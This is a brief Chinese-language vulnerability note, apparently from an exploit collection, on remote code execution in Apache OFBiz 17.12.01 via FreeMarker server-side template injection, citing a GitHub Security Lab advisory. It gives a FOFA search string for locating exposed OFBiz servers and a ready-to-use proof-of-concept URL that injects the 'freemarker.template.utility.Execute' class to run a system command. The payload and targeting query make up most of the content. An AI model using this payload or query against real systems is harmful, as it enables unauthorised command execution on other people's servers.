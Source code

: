 # Apache OfBiz 远程代码执行（RCE）

Apache OfBiz 17.12.01容易受到服务器端模板注入（SSTI）的影响，从而导致远程代码执行（RCE）。

FOFA：

```
app="Apache_OFBiz"
```

PoC:

```
https://localhost/ordermgr/control/FindRequest?foo=bar"ajaxEnabled=false/>${"freemarker.template.utility.Execute"?new()("id")}<FOO
```

from:https://securitylab.github.com/advisories/GHSL-2020-066-apache_ofbiz
